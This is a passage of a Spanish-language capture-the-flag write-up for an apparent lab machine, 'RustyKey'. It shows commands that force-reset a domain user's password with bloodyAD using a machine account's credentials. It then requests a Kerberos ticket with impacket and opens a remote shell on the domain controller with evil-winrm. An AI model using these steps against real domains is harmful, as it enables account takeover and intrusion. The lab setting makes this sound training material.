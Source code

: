 
>>> cambio de password
```bash
bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' set password bb.morgan 'Testing123@'
```
```bash
[+] Password changed successfully!
```

>>> Solicitud de ticket kerberos
```bash
impacket-getTGT rustykey.htb/'bb.morgan':'Testing123@'
```
```bash
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in bb.morgan.ccache
                                          
```

ahora si hemos podido solicitarlo por lo que seteamos la variable de entorno `KRB5CCNAME`

```bash
export KRB5CCNAME=bb.morgan.ccache
```

ya con esto accedemos via `winrm`

```bash
evil-winrm -i dc.rustykey.htb -u 'bb.morgan' -r rustykey.htb
```

![image](https://github.com/user-attachments/assets/a4ddc078-e905-4d5a-953e-e2c97d9322e9)

no logro acceder, pero esto se debe a la falta de configuracion del archivo `/etc/krb5.conf` asi que lo configuramos de la siguiente manera

```bash
nano /etc/krb5.conf
```
```bash
[libdefaults]
    default_realm = RUSTYKEY.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false
    ticket_lifetime = 24h
    renew_lifetime = 7d
    forwardable = true
    rdns = false

[realms]
    RUSTYKEY.HTB = {
        kdc = 10.10.11.75
        admin_server = 10.10.11.75
    }

[domain_realm]
    .rustykey.htb = RUSTYKEY.HTB
    rustykey.htb = RUSTYKEY.HTB

```
